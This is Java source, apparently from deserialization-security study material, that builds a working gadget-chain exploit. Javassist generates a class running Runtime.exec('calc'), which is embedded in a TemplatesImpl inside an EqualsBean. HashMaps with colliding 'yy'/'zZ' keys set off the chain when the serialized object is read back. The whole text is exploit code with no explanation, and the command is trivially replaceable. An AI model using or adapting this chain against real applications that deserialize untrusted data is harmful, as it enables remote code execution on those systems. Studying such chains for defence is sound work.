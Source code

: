 ```bash

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        EqualsBean bean = new EqualsBean(String.class, "s");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", templateImpl);
        map2.put("zZ", bean);
        map2.put("yy", templateImpl);
        HashSet table = new HashSet();
        table.add(map1);
        table.add(map2);

        setFiled(bean, "_beanClass", Templates.class);
        setFiled(bean, "_obj", templateImpl);
        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("EqualsBean.bin"));
        objectOutputStream.writeObject(table);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("EqualsBean.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```
